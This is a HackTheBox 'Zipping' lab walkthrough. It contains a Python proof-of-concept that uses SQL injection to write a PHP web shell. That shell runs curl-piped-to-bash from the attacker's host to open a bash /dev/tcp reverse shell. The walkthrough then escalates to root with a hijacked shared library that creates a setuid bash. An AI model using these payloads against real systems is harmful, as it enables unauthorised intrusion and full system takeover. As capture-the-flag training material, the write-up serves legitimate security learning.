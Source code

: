 # ⚽ Zipping HackTheBox Walkthrough

<figure><img src=".gitbook/assets/Zipping.png" alt=""><figcaption><p>ZIPPING - HACK THE BOX</p></figcaption></figure>



Add the given Machine IP to Host file

```
sudo nano /etc/hosts
```

Now you will be able to Open Webpage in Web Browser.

#### NMAP

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp open  http    syn-ack Apache httpd 2.4.54 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

#### INDEX PAGE&#x20;

<figure><img src=".gitbook/assets/Screenshot 2023-12-16 at 09-44-02 Zipping Watch store.png" alt=""><figcaption><p>http://10.10.11.229/</p></figcaption></figure>

#### GETTING SHELL  ACESS

#### POC

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

save this python scipt with **.py** format and run the following line of codes.

```
python3 script.py <your_vpn_ip> 4444 

& Run NETCAT in another Tab
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.229] 34126
bash: cannot set terminal process group (1128): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$   
```

Run TTY Spawn Shell.

#### Privilage Escalation

```
rektsu@zipping:/$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

{% embed url="https://tbhaxor.com/exploiting-shared-library-misconfigurations/" %}

We can see a **binary** that requests a **password** luckily the password is given **"St0ckM4nager".**

Now we use strace and we find that the program calls library that does not exist: **/home/rektsu/.config/libcounter.so**

```
Open a text editor and save the file in /tmp/libcounter.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Type the following line of code.

```
gcc -shared -o /home/rekstu/.config/libcounter.so -fPIC /tmp/libcounter.c
```

Now run,

```
rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# whoami
root
```

WE ARE **ROOT** !!!!!!
